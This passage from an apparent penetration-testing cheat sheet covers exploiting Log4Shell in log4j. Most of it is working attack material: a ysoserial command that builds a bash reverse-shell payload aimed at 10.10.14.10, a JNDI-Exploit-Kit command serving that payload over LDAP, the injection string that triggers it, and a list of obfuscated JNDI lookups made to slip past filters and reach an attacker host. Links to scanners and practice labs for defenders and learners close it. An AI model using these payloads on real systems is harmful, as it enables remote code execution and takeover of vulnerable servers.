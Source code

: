 ```bash
# Rev shell via CommonsCollections5
java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.10/7878 0>&1' > /tmp/cc5.ser
```

Use [**JNDI-Exploit-Kit**](https://github.com/pimps/JNDI-Exploit-Kit) to generate **JNDI links** where the exploit will be waiting for connections from the vulnerable machines. You can server **different exploit that can be automatically generated** by the JNDI-Exploit-Kit or even your **own deserialization payloads** (generated by you or ysoserial).

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.10:1389 -P /tmp/cc5.ser
```

![](<../../.gitbook/assets/image (642) (1) (1).png>)

Now you can easily use a generated JNDI link to exploit the vulnerability and obtain a **reverse shell** just sending to a vulnerable version of log4j: **`${ldap://10.10.14.10:1389/generated}`**

### Bypasses

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```

### Automatic Scanners

* [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
* [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
* [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
* [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
* [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
* [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
* [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
* [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - Find local vulnerable libraries

### Labs to test

* [**LogForge HTB machine**](https://app.hackthebox.com/tracks/UHC-track)
* [**Try Hack Me Solar room**](https://tryhackme.com/room/solar)
* [**https://github.com/leonjza/log4jpwn**](https://github.com/leonjza/log4jpwn)
* [**https://github.com/christophetd/log4shell-vulnerable-app**](https://github.com/christophetd/log4shell-vulnerable-app)
